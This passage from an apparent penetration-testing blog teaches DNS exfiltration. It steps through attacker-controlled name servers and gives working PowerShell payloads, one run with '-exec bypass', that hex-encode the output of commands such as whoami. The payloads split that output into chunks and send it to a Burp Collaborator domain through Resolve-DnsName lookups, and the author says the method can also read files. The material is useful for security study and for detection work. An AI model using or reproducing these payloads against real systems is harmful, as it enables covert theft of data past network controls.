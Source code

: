 To exfiltarate data via DNS
1. Setup a domain and point the name server to one we control. This can be archived using burp collaborator or buying a domain and settings its name server to a server we control.
2. Append the data to exfilterate as a subdomain of a domain we have control over and send the request.
3. The data will be part of the DNS request we receive. 

First I will try it out using collaborator. We can append a string to the collaborator domain and make a request using `wget`

The payload will be 

```powershell
powershell -exec bypass -c "wget 'dnstest.9u4y5mpcus6j3r0wtquruty7yy4osd.burpcollaborator.net'"
```

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/dns/1.5.png){: .align-center}
image 1.5

Awesome. We can see that our data was indeed appended as part of the DNS request. We can use this to append the output of our command outputs as part of the subdomain and we will be able to receive the output of the command. We can also read files using this technique. 

But we have two challenges

1. **There is a length limit for the URL. This means that we cannot append huge output. The limit was around 30 characters.**  
    The solution for this is to split the command into parts and send the parts one by one using one DNS request for each part.
2. **We cannot append special characters which means we have the encode the data before appending it.**  
    My first idea was to encode the commands as base64. But this failed miserably as I realized that the DNS requests only contains lower case characters. Hence our data will be lost. The alternative is to ascii encode the characters as hex and send them over and then decode it. 
    
## Exfilterating RCE Output

After some more research, I found an a very good [script](https://gallery.technet.microsoft.com/DNS-based-data-exfiltration-fc48e292) that can do both the splitting and encoding.

I tweaked it a bit to get the output of commands that are executed. The final payload look like this

```powershell
$(whoami) -split '(.{16})' | ? {$_} | % { Resolve-DnsName (([System.BitConverter]::ToString([System.Text.Encoding]::UTF8.GetBytes($_))).Replace('-','')+'.659h81eo8n6qb5y6w9swwg71rsxulj.burpcollaborator.net') -Type A; Start-Sleep -Seconds 1 }
```

Lets break it down.

1. First it executes the command `whoami` and splits the output into lengths of 16. I tried increasing the length, but the commands where not getting split properly when I did that.
2. Iterate through each part and encode it to hex.
3. Try to Resolve the URL of collaborator with the hex data appended before it. 
4. Sleeps for 1 second and continue with the next part.
